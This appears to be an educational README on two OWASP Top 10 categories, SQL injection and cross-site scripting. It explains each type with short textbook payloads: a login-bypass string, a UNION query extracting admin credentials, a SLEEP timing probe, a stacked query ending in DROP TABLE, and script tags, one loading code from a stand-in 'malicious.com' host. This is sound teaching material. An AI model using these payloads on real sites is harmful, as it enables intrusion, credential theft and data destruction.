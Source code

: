 
# OWASP TOP 10

## SQLI

- SQL Injection (SQLI) is an attack technique used to exploit vulnerabilities in web applications 
that do not properly validate user input in SQL queries sent to the database. Attackers can use this 
technique to execute malicious SQL queries and obtain sensitive information, such as usernames, passwords, 
and other data stored in the database.

- Types of SQL Injection:
    - Error-based: Exploits SQL code errors to gather information.
    - Time-based: Uses time-delayed queries to extract data.
    - Boolean-based: Employs boolean expressions to obtain additional information.
    - Union-based: Combines two or more queries using the "UNION" clause.
    - Stacked queries: Executes multiple queries in a single statement.

### Examples of SQL Injection exploitation:

#### Authentication bypass:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1'
```

This query always returns true, potentially granting unauthorized access.

#### Data extraction:
```sql
SELECT * FROM users WHERE id = 1 UNION SELECT username, password FROM admin_users
```
This query combines results from two tables, potentially exposing admin credentials.

#### Time-based blind injection:
```sql
SELECT * FROM users WHERE id = 1 AND IF(SUBSTRING(username,1,1) = 'a', SLEEP(5), 0)
```
If the first character of the username is 'a', the query will delay for 5 seconds, allowing data extraction 
through timing analysis.

#### Inserting malicious data:
```sql
INSERT INTO users (username, email) VALUES ('hacker', 'malicious@email.com'); DROP TABLE users;--')
```
This query inserts a new user and then drops the entire users table.

## XSS

- Cross-Site Scripting (XSS) vulnerability is a type of computer security vulnerability that allows an 
attacker to execute malicious code on a user's web page without their knowledge or consent. 

- This vulnerability enables the attacker to steal personal information, such as usernames, passwords, 
and other confidential data.

- Essentially, an XSS attack involves inserting malicious code into a vulnerable web page, which is then 
executed in the browser of the user accessing that page. The malicious code can be anything from scripts 
that redirect the user to another page to scripts that log keystrokes or form data and send them to a remote server.

There are several types of XSS vulnerabilities, including:
### Reflected XSS: 
This type of XSS occurs when user-provided data is reflected in the HTTP response without proper validation. 
This allows an attacker to inject malicious code into the response, which is then executed in the user's browser.

#### Example of Reflected XSS:

```xml
<% String eid = request.getParameter("eid"); %>
...
Employee ID: <%= eid %>

```
In this example, if an attacker sets the "eid" parameter to `<script>alert('XSS')</script>`, it will execute in the victim's browser

### Stored XSS: 
This type of XSS occurs when an attacker is able to store malicious code in a database or on the web server hosting a vulnerable web page. 
This code is executed every time the page is loaded.

#### Example of Stored XSS:

```xml
<p>I highly recommend this product!</p>
<script src="http://malicious.com/exploit.js"> </script>
```
In this case, the malicious script is stored in the comment section of a retail website and will be executed every time a user views the page

### DOM-Based XSS:

This type of XSS occurs when malicious code is executed in the user's browser through the Document Object Model (DOM). 
This happens when JavaScript code on a web page modifies the DOM in a way that is vulnerable to malicious code injection.

#### Example of DOM-Based XSS:

```JavaScript
var name = document.location.hash.substr(1);
document.write("Hello, " + name);
```

If the URL ends with `#<script>alert('XSS')</script>`, the script will be executed.

